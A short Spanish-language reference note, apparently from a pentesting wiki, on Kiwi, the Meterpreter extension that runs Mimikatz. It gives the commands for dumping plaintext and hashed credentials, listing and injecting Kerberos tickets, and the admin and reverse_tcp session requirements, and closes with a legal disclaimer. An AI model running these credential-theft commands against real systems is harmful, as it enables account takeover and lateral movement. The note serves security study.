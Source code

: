
# 🐥 Kiwi - Mimikatz embebido en Meterpreter

**Kiwi** es una extensión de Meterpreter que permite utilizar funcionalidades de [Mimikatz](./mimikatz.md) directamente desde una sesión de **Metasploit**, sin necesidad de subir binarios ni ejecutar herramientas externas.

---

## 🎯 ¿Qué permite hacer?

Una vez cargada la extensión, te brinda comandos similares a los de Mimikatz para:

- Extraer credenciales (plaintext, NTLM, LM, SHA1)
- Volcar credenciales de sistemas Kerberos
- Inyectar tickets Kerberos
- Enumerar sesiones y usuarios conectados
- Elevar privilegios o duplicar tokens

---

## 🚀 ¿Cómo se usa?

1. **Desde una sesión de `meterpreter`:**

```bash
meterpreter > load kiwi
````

2. **Extraer todas las credenciales (como en la imagen):**
    

```bash
meterpreter > creds_all
```

3. **Listar usuarios conectados:**
    

```bash
meterpreter > kiwi_cmd sekurlsa::logonpasswords
```

---

## 📌 Comandos útiles

|Comando|Descripción|
|---|---|
|`load kiwi`|Carga la extensión|
|`creds_all`|Extrae credenciales de todas las fuentes|
|`kiwi_cmd sekurlsa::logonpasswords`|Ejecuta Mimikatz desde Meterpreter|
|`kiwi_cmd kerberos::list`|Lista tickets Kerberos|
|`kiwi_cmd kerberos::ptt`|Inyecta tickets|
|`kiwi_cmd sekurlsa::tickets`|Muestra tickets activos|

---

## 🔐 Requisitos

- Acceso como **Administrador** o **SYSTEM**
    
- Tener una sesión **Meterpreter activa** (ideal: `windows/x64/meterpreter/reverse_tcp`)
    

---

> 🛑 **Nota legal:** El uso de Kiwi está limitado a entornos controlados con consentimiento explícito. Utilizarlo sin autorización es ilegal.

[[herramientas]]